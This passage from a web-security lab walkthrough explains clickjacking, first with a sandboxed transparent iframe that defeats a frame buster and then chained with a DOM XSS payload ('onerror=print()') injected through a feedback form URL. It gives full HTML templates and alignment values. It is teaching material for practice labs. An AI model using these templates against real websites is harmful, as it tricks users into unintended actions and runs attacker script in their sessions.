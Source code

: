 ```<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>```
   - Substitute suitable pixel values for the $top_value and $side_value variables of the decoy web content so that the "Update email" button and the "Test me" decoy action align (we suggest 385px and 80px respectively).
   - Set the opacity value *$opacity* to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
   Notice the use of the *sandbox="allow-forms"* attribute that neutralizes the frame buster script.
4. Click **Store** and then **View exploit**.
5. Hover over "Test me" and ensure the cursor changes to a hand indicating that the div element is positioned correctly. If not, adjust the position of the div element by modifying the top and left properties of the style sheet.
6. Once you have the div element lined up correctly, change "Test me" to "Click me" and click **Store**.
7. Change the email address in your exploit so that it doesn't match your own.
8. Deliver the exploit to the victim to solve the lab.

## Combining clickjacking with a DOM XSS attack

So far, we have looked at clickjacking as a self-contained attack. Historically, clickjacking has been used to perform behaviors such as boosting "likes" on a Facebook page. However, the true potency of clickjacking is revealed when it is used as a carrier for another attack such as a DOM XSS attack. Implementation of this combined attack is relatively straightforward assuming that the attacker has first identified the XSS exploit. The XSS exploit is then combined with the iframe target URL so that the user clicks on the button or link and consequently executes the DOM XSS attack.

### Exploiting clickjacking vulnerability to trigger DOM-based XSS

This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the *print()* function.

**Solution:**
1. Go to the exploit server and paste the following HTML template into the **Body** section:
    ```
    <style>
        iframe {
            position:relative;
            width:$width_value;
            height: $height_value;
            opacity: $opacity;
            z-index: 2;
        }
        div {
            position:absolute;
            top:$top_value;
            left:$side_value;
            z-index: 1;
        }
    </style>
    <div>Test me</div>
    <iframe
    src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
    ```
2. Make the following adjustments to the template:
   - Replace *YOUR-LAB-ID* in the iframe src attribute with your unique lab ID so that the URL points to the target website's "Submit feedback" page.
   - Substitute suitable pixel values for the $height_value and $width_value variables of the iframe (we suggest 700px and 500px respectively).
   - Substitute suitable pixel values for the $top_value and $side_value variables of the decoy web content so that the "Submit feedback" button and the "Test me" decoy action align (we suggest 610px and 80px respectively).
```